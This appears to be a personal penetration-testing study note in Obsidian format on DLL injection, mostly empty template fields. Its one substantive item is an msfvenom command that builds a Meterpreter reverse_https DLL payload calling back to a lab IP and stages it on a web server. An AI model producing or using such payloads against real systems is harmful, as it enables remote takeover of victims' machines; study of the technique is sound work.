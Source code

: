 ```yaml
---
creation date: December 28th 2022
last modified date: December 28th 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[DLL Injection]]  
___

## Description:  

For injecting an entire DLL into a remote process instead of just shellcode

Generate a DLL:
```
kali@kali:~$ sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.119.120 LPORT=443 -f dll -o /var/www/html/met.dll
```


___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: December 28th 2022 (11:55 am)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
